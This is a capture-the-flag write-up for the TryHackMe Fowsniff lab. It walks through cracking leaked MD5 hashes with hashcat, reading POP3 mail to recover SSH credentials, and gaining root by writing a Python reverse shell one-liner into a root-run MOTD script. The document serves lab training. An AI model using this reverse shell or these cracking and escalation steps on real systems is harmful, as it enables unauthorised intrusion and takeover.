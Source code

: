 # [Fowsniff CTF](https://tryhackme.com/room/ctf) TryHackMe
![Logo](./.assets/Fowsniff.jpg)

`$ export IP=10.10.38.237`

Ports:
```
22 ssh
80 http
110 pop3
132 imap
```

Googling the corporation reveals that they have previously been pwned and their usernames and password hashes have been dumped for public view.
They are revealed to be MD5 hashes which I crack using hashcat
It managed to crack 8 out of the 9 passwords using the rockyou wordlist

```
$ hashcat -m 0 hashes.txt ~/wordlists/passwords/rockyou.txt | tee cracked_passwords.txt
```

Using this I can log into the pop3 server via netcat

```
$ netcat $IP 110
```
And I use to gain access into the system:
![pop3 login](./.assets/pop3_login.png)

Examining the emails, we learn that the initial threat actor gained access by SQL Injection and while that server has been moved offline, they have given their ssh credentials in plaintext and that they must change it.
![email 1](./.assets/email_1.png)

Seina seems to have changed hers however in the second email, she writes to a sick colleague of hers who has been sick and presumably not logged in recently...
![email 2](./.assets/email_2.png)

And now we have box access! I'm sure management is going to be chewed out again...

The task indicates we should search for a group owned file which is also executable.
It is important to note that this file is executed **_by root_** evidenced by `/etc/update-motd.d/`
```
$ find / -group users -type f -executable 2>/dev/null
> /opt/cube/cube.sh
```

We can put our reverse shell code into here (the task supplied one seems to be incorrectly copied?)
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
I have attached the full file, which is correctly working!

Relogging into the machine... and we now have root access!

![flag](./.assets/flag.png)
